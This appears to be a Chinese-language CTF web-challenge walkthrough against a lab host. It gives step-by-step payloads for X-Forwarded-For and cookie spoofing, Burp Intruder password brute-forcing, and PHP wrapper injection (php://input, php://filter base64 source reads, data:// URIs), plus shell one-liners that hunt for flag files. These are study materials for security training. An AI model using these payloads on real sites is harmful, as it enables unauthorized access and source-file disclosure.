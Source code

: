 `cat /*/flag; cat/*/*/flag; cat/*/*/*/flag`

`grep -r flag /`

## Untitled 

http://192.168.100.111/web/web3/index.php#

### 题目3： 提交php版本号

    1. F12， 提交请求后， 在F12-网络中 查看POST信息。找到版本。
    2. 提交后仍然不对， 找源代码，比如 index.php.bak / robots.txt 或者用扫描器扫一下。
    3. php中提示了使用的是Get方法提交的name=ver的值，直接发请求或者修改对应的源码
### 题目4： 找到 admin page -- 熟悉robots.txt作用

    1. 直接进 robots.txt --- 此文件记录相关的文件夹
    2. 提示进入 login.php 得到 flag
### 题目5: 模拟本机登录 

    http://192.168.100.111/web/web5/ 
    1. BurpSuite配置代理 127.0.0.1:8080, Firefox使用Proxy插件设置好代理地址。使用BP抓包，Action发送到repeater
    2. 在Repteater中的raw中修改，X-Forwarded-For:127.0.0.1，点击Go
    3. 提示不是管理员，修改 isadmin=1，点击Go
    3. Cookie: isadmin=1
### 题目6: 暴破

    http://192.168.100.111/web/web6/
    1. 源码看到password.txt，. 拿到字典，随便发一下抓包，发现明文传输。
    2 .暴破：发送到 Intuder
    3. 选好字典，设置好线程，start attack
    4. 得到密码后，登录，抓包，Set-Cookie: newpage=MjkwYmNhNzBjN2RhZTkzZGI2NjQ0ZmEwMGI5ZDgzYjkucGhw; ，base64解码，得到下一页面。
    islogin常用值：guest, root, admin, black, 
### 题目8: 伪协议

    http://192.168.100.111/web/web8/
    看源码，需要上传文件为指定内容。
    url: http://192.168.100.111/web/web8/?user=php://input
    post: welcome to the Bili's world
    hackbar需要有参数，使用bp抓包。
    发到Repeater,然后删掉相关的参数key。只保留数据。（如果被转码了需要手动恢复。)
### 题目9: 伪协议

    http://192.168.100.111/web/web9/
    输入框中: php://filter/read=convert.base64-encode/resource=[文件路径]
    输入框中: php://filter/read=convert.base64-encode/resource=index.php
### 题目10: 伪协议

    http://192.168.100.111/web/web10/
    看源码后，get提交user传入内容为文件的 welcome to the venus'world 。。
    1. http://192.168.100.111/web/web10/?user=data:text/plain,welcome to the venus'world
    2. http://lab1.xseclab.com/?^.^=data://text/plain;charset=unicode,%28%E2%97%8F%27%E2%97%A1%27%E2%97%8F%29  # 放入hackkbar执行
    查看源码 ,file 传入hint.php 使用filter查看内容
    2. http://192.168.100.111/web/web10/?user=data:text/plain,welcome to the venus'world&file=php://filter/read=convert.base64-encode/resource=hint.php
    3. 源码找到f1a9.php 读取文件 file=php://filter/read=convert.base64-encode/resource=f1a9.php 

